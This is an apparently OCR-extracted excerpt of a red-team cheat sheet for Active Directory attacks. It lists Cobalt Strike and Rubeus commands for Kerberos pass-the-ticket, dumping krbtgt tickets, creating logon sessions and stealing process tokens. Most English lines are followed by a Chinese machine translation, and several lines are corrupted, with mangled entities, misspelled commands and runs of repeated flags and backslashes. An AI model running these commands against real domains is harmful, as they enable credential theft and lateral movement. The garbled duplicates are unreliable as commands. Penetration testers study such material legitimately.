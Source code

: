 make_token＆＃x3c;域> \＆＃x3c; username> dummypass
## Write the ticket in the attacker machine from a poweshell session &#x26; load it

##从PowerShell会话中将机票写入攻击机机器＆＃x26; 加载它
[System.IO.File]::WriteAllBytes("C:\Users\Administrator\Desktop\jkingTGT.kirbi", [System.Convert]::FromBase64String("[...ticket...]"))
kerberos_ticket_use C:\Users\Administrator\Desktop\jkingTGT.kirbi

## Pass the ticket from SYSTEM

##通过系统票
## Generate a new process with the ticket

##用票生成一个新过程
execute-assembly C:\path\Rubeus.exe asktgt /user:&#x3C;USERNAME> /domain:&#x3C;DOMAIN> /aes256:&#x3C;AES KEY> /nowrap /opsec /createnetonly:C:\Windows\System32\cmd.exe

execute-eSembly c：\ path \ rubeus.exe asktgt /user：＆＃x3c; username> /domain：＆＃x3c; domain> /aes256：＆＃x3c; aes key> /nowrap /opsec /opsec /opsec /createNetonly：c：c：\ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ Windows \ System32 \ cmd.exe
## Steal the token from that process

##从该过程中窃取令牌
steal_token &#x3C;pid>

## Extract ticket + Pass the ticket

##提取票 +通过门票
### List tickets
execute-assembly C:\path\Rubeus.exe triage

执行组件C：\ path \ rubeus.exe triage
### Dump insteresting ticket by luid

### LUID的转储内部票
execute-assembly C:\path\Rubeus.exe dump /service:krbtgt /luid:&#x3C;luid> /nowrap

execute-semembly c：\ path \ rubeus.exe dump /service：krbtgt /luid：＆＃x3c; luid> /nowrap
### Create new logon session, note luid and processid

###创建新的登录会话，注意Luid和ProcessID
execute-assembly C:\path\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe

execute-semembly c：\ path \ rubeus.exe createNeTonly /program：c：\ windows \ system32 \ cmd.exe
### Insert ticket in generate logon session

###在生成登录会话中插入票
execute-assembly C:\path\Rubeus.exe ptt /luid:0x92a8c /ticket:[...base64-ticket...]
